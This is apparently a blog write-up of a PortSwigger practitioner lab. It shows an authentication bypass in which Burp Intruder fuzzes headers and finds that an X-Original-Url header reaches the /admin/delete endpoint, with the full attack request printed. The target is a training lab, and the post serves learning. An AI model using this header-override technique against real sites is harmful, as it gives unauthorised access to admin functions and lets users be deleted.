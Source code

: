 ```yaml
---
title: "Authentication Bypass By Abusing URL Based Controls [Portwigger Practitioner Series]"
date: 2024-08-23 20:00:56 +0300
categories: [Web Security, web]
tags: [web, hacking, authentication bypass]
image: /assets/img/auth/auth.png
alt: "Authentication Bypass By Abusing URL Based Controls [Portwigger Practitioner Series]"
---
```

The first post of the portswigger practitioner series. My attempt at solving the practitioner labs without the provided solutions. My solutions will be after a couple of tests, only documenting what worked. 

## Let me in, admin.
- Accessing the URL lands us here. 
![here](/assets/img/auth/landing1.png)
- Clicking on the *Admin Panel* reveals the access denied error. We need to bypass this.
![headers](/assets/img/auth/access-denied1.png)
- After some few tries, i noticed some headers that were allowed by the application. Using the list from my favourite header fuzzing list [here](https://gist.github.com/kaimi-/6b3c99538dce9e3d29ad647b325007c1). Replace the `127.0.0.1` with the protected path `/admin`. Also remove the /admin in the GET request and set it to `GET / HTTP/1.1`. 
- Intercept the `/admin` endpoint using BurpSuite. Send to `Intruder`. Add the payloads from the url and start the scan. Set a new marker to indicate the position. I used `something: /admin`.
- Use the simple list and paste payloads.
- Fuzz the living string out of it till it begs for mercy. Remember to uncheck the URL encode these characters on the bottom of the intruder page.
![headers](/assets/img/auth/header-intruder.png)
- I noticed the `X-Original-Url` had a different content lenth than the rest. Observe the response.
![headers](/assets/img/auth/admin-resp.png)
- Set the path to `/?username=carlos` and the X-Original-Url set to `/admin/delete` and make the request. Success.
```text
GET /?username=carlos HTTP/1.1
Host: 0a71004004fccef481a8111800a50032.web-security-academy.net
Connection: close
sec-ch-ua: "Not)A;Brand";v="99", "Brave";v="127", "Chromium";v="127"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en;q=0.8
Sec-Fetch-Site: same-origin
X-Original-Url: /admin/delete
```

- We get the response:

```html
<section id=notification-labsolved class=notification-labsolved-hidden>
        <div class=container>
            <h4>Congratulations, you solved the lab!</h4>
            <div>
                <span>
                    Share your skills!
                </span>
```
- Solved.

## Lesson learnt
- Always observe the headers. They may not always be visible when making requests, but may be supported and may be useful to bypass WAFs or authentication.
- For example the `X-Forwarded-For` header can be used to bypass common WAF defenses and authorizations.
